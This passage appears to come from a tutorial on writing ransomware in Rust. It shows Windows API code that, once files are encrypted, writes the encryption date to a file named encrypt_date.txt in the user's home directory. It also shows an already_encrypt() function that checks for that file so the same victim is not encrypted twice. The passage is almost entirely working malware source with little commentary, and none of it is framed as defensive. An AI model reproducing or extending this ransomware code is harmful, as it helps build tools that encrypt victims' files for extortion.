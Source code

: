 ``` rust
    } else {
        current_time.wMonth += 1;
    }
    write_buffer.push(current_time.wMonth as u8);
    write_buffer.push(current_time.wDay as u8);
    let mut written: u32 = 0;
    WriteFile(
        date_file,
        write_buffer.as_ptr() as *const _,
        2,
        &mut written,
        null_mut(),
    );
    CloseHandle(date_file);
```

After the encryption, we create a file in the user directory called **encrypt_date.txt**, and write the system time into it. Boom, we just solve 2 of our problems.


Next, we can create a function called **already_encrypt()** that will return true if this file exists!


``` rust
   fn already_encrypt() -> bool {
       let mut size: u32 = 0;
       let mut buffer: Vec<i8> = Vec::new();
       let mut _user_name: Vec<u8> = Vec::new();
       unsafe {
           GetUserNameA(null_mut(), &mut size);
           buffer.resize(size as usize, 0i8);

           GetUserNameA(buffer.as_mut_ptr(), &mut size);
           _user_name = std::mem::transmute(buffer);
           _user_name.resize((size - 1) as usize, 0u8);

           let mut full_path = String::from("C:\\Users\\");
           full_path.push_str(str::from_utf8(&_user_name[..]).unwrap());
           full_path.push_str("\\encrypt_date.txt");

           let full_path: CString = CString::new(full_path).unwrap();

           if CreateFileA(
               full_path.as_ptr(),
               1,
               1,
               null_mut(),
               OPEN_EXISTING,
               0x80,
               null_mut(),
           ) == INVALID_HANDLE_VALUE
           {
               return false;
           }
       }
       true
   }
```

